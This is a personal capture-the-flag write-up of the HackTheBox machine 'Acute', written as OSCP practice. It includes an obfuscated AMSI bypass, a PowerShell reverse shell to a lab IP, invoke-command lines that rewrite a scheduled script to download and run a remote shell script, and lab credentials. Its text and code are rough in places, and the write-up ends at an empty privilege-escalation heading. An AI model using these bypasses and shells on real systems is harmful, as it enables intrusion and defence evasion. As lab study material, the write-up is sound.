

# Acute Helped-Through

Name: Acute
Date:  
Difficulty: Hard  
Goals:  OSCP prep and rebuild alot of lost momentuum before December
Learnt:
- Virtual host rounting - in `/etc/hosts subdomain.domain.tld subdomain`
- Question how service running on server to host the external service?
- Be throughout - 2/4 - I wanted to test links to much! - Extract all and Test Linearly - Extract and Test.

Had a pretty terrible couple of days, awhile still being healthy and solved some more administrative issues. No boxes were done and I am returningto power through the next exam like 12 hours brutality fun-time-fail-and-fix. One day in one day off. I need a good five hours of fun and practical learning and recall. These streams are great for that as Al is always either two steps ahead of me or I am ahead by a step whiel he is using the other half of his brain to throw out questions, testing the audience and answering questions about relevant cyber security questions.
[Alh4zr3d](https://www.youtube.com/watch?v=IRSm7kalGPY) stream and after following along I will read 0xDF writeup on this and another from another source.

If I ever am fortunate enough to be a part of a group people hacking away I am definite wqant to bring this kind of style - with less noisey and shouty American(I like it but I dont think in the same room as other it would work as well) and more Ed Skoudis or Marcus Hutchins(although with more exciting than calm) though. How can ever burnout with a group learning and doing stuff together. Edit he pulls a Bob Ross on the stream so my comments here somewhat muted.

## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.


My inital masscan failed so all more my automated recon goes full manual till I get port information regardless of knowing that this is AD machine. I the time it takes to recon a machine should bear some realism helpful while sort out a couple issues remaining before I start watching the stream. Nmap finishes while I am prepping myself - it is just a website. 


`atsserver.acute.local`, therefore add to /etc/hosts and subdomain brute force and double check DNS and Kerberos as .local is not local network .tld used in AD. which is weird. Stating the tought process to state it as the reason not that I know it is an AD box. After I had finish scanning and the extra checks my first thought while Al preps  the box and stream I remember read a ssl cert tool bug bounty hunters use - found it in my Automated Recon setup for Bug Bounty - the Osint part is legitimately almost done, my rust part no where near done, but my bash automation is good enough, the subdomain bruteforce willl not take long. 

Nuclei:
[IIS 10](microsoft-iis-version-https___atsserver.acute.local) 

Burp:

Acute/ - directory structuring
Userson about page
Aileen Wallace, Charlotte Hall, Evan Davies, Ieuan Monks, Joshua Morgan, and Lois Hopkins.

New starter forms


Intel from inside the document

https://atsserver.acute.local/Staff/Induction - 404
https://atsserver.acute.local/Staff - 404
Also:
https://atsserver.acute.local/Acute_Staff_Access


This disclosure narrows a possible route to escalate.


Exiftooling docments is must to etch into my brain


- Run through the new PSWA to highlight the restrictions set on the sessions named dc_manage.


AD-CS is involved in 


Be throughout! - Missed the Password and PSWA intel - `Password1!`


## Initial Access

EDavies is the holder of the fine default password `Password1!`


Contrained language mode enumeration - Constrain users to core type, prevent all the good powershell.
```powershell
$ExecutionContext.SessionState.LanguageMode
# FullLanguage == Good 
```

Most recent versions of Windows **DOES NOT HAVE POWERSHELL v2**


The  bypass Al used threw this error


If patched, just change up the strings/variables. https://github.com/sinfulz/JustEvadeBro

```powershell
# Enumerate AMSI
$str = 'amsiinitfailed'
# Bypass with:
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
# Check AMSI
$str = 'amsiinitfailed'
```

Tried these and failed:
```powershell
# Failed
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
# Failed
[Ref].Assembly.GetType('System.Management.Automation.'+$("41 6D 73 69 55 74 69 6C 73".Split(" ")|forEach{[char]([convert]::toint16($_,16))}|forEach{$result=$result+$_};$result)).GetField($("61 6D 73 69 49 6E 69 74 46 61 69 6C 65 64".Split(" ")|forEach{[char]([convert]::toint16($_,16))}|forEach{$result2=$result2+$_};$result2),'NonPublic,Static').SetValue($null,$true)
```


Weird directory pointed out be a member of the stream:


Why is this there, my eyelids have icacls.exe icacls.exe under each. 


```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.109',8888);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```


```powershell
get-process 
# What is weird - Our Context - PS
explorer
msedge
WmiPrvSE
# The above indicate interactive logon sessions
```


Check for remote desktop users


Feels good to know about `set`, but not good to not 2 is 1 the box... Learnt `dir env:`

Then my LOLSBAS started failing... 
Given the `hostname` is `Acute-PC01` and the DC = `\\ATSSERVER`, which is the logon server, *but* becuase we have no external DC ports we must be in some kind of virtual environment. After a some fubbling around and a break. After following alond with meterpreter session [Alh4zr3d](https://www.youtube.com/@alh4zr3d3) screenshots presummable remembering that there is a console session on the machine with explorer.exe open for the lateral movement on this box. At this point given my concern about how this could be done without metasploit I proceeded to check other Writeups of this box. [0xdf](https://0xdf.gitlab.io/2022/07/16/htb-acute.html) uses meterpreter. Amusing returning to this part of writing this the odds of screenshotting at the exact moment that the entire lsit of powershell commands run by the scripted user is kind of mind boggling. It runs in a 1 minute loop. And to get the part where it use the `dc_manage` configuration before *immediately* closing the window is bonkers.

```ruby
# Meterpreter has a powershell module
load powershell 
screenshare 
```


TIL every write up used meterpreter. [zery](https://zery.cf/index.php/acute/), [Ippsec](https://www.youtube.com/watch?v=jDYte7xNY1g) [caueb](https://caueb.github.io/writeups/htb/boxes/acute/) uses meterpreter, but this command from the caueb is awesome! I am going go with this is a gimmick of the box.
```powershell
# Show directories that are whitelisted
reg query "HKLM\SOFTWARE\Microsoft\Windows Defender\Exclusions\Paths"
```


Never used meterpreter screenshare.


The key important detail here is not there! I missed the `-ConfigationName dc_manage`

`acute\imonks`
`w3_4R3_th3_f0rce.`

```powershell
$pass = convertto-securestring -asplaintext -force -string "W3_4R3_th3_f0rce."
$cred = new-object -typename system.management.automation.pscredential -arguementlist "acute\imonks",$pass
# Sometimes you need to use invoke command
invoke-comand -computername ATSSERVER -ScriptBlock { <insertcommands> } -ConfigationName dc_manage -Credential $cred
```
The Invoke-Command cmdlet **runs commands on a local or remote computer and returns all output from the commands, including errors**. Using a single Invoke-Command command, you can run commands on multiple computers. To run a single command on a remote computer, use the ComputerName parameter.


The struggle for me came from my screenshotting. Here is the import detail

Fortunately honestly and thankfully the logs are here to remind me of the OOF. 

Bit testing and playing around. Learnt that a better approach would be to start check what commands you run first. `get-command`


Tried spawning a shell in memory via the command above, which failed. 

The script on the desktop


Before I continue on with the video, I want to try a echo a webshell into the webshell of the wwwroot of inetpub, but icacls would have told me no permissions. 
```powershell
$securepasswd = '01000000d08c9ddf0115d1118c7a00c04fc297eb0100000096ed5ae76bd0da4c825bdd9f24083e5c0000000002000000000003660000c00000001000000080f704e251793f5d4f903c7158c8213d0000000004800000a000000010000000ac2606ccfda6b4e0a9d56a20417d2f67280000009497141b794c6cb963d2460bd96ddcea35b25ff248a53af0924572cd3ee91a28dba01e062ef1c026140000000f66f5cec1b264411d8a263a2ca854bc6e453c51'
$passwd = $securepasswd | ConvertTo-SecureString
$creds = New-Object System.Management.Automation.PSCredential ("acute\jmorgan", $passwd)
Invoke-Command -ScriptBlock {Get-Volume} -ComputerName Acute-PC01 -Credential $creds
```

TIL about `IWR = Invoke-WebRequest` 

Although powershelling along with Al was great and all I alway back up files after at atleast trying to be professional as possible. I guess maybe we can just paste it back in, but this got me worried enough considering the probablity of failing and having to reset the box. 

This section was really slow.  
```powershell
$pass = convertto-securestring -asplaintext -force -string "W3_4R3_th3_f0rce."
$cred = new-object -typename system.management.automation.pscredential("acute\imonks",$pass)

# BEWARE THE PARENTHESES!

invoke-command -computername ATSSERVER -ConfigurationName dc_manage -Credential $cred -ScriptBlock { ((Get-Content -Path C:\Users\imonks\desktop\wm.ps1 -Raw) -replace 'Get-Volume', 'C:\Utils\zzz.exe') | Set-Content -Path C:\Users\imonks\desktop\wm.ps1 }
```
[Use basic Parsing is deprecated as of 6.0.0](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-webrequest)

I had real trouble debug the changes as I missed an extra `)` and could not remove. My mistakes where in PARENTHESES. The problem with verbosity is nest paratheses are a nightmare to read.
```powershell
invoke-command -computername ATSSERVER -ConfigurationName dc_manage -Credential $cred -ScriptBlock { ((Get-Content -Path C:\Users\imonks\desktop\wm.ps1 -Raw) -replace 'Get-Volume', 'IEX(IWR http://10.10.14.109/Invoke-PowerShellTcp.ps1 -UseBasicParsing)') | Set-Content -Path C:\Users\imonks\desktop\wm.ps1)) }

# and to replace the IWR!
invoke-command -computername ATSSERVER -ConfigurationName dc_manage -Credential $cred -ScriptBlock { ((Get-Content -Path C:\Users\imonks\desktop\wm.ps1 -Raw) -replace 'IWR http://10.10.14.109/Invoke-PowerShellTcp.ps1 -UseBasicParsing', '(New-Object Net.WebClient).downloadString("http://10.10.14.109/Invoke-PowerShellTcp.ps1")') | set-Content -Path C:\Users\imonks\desktop\wm.ps1)) } 
```


windows/x64/shell_reverse_tcp


## PrivEsc


      
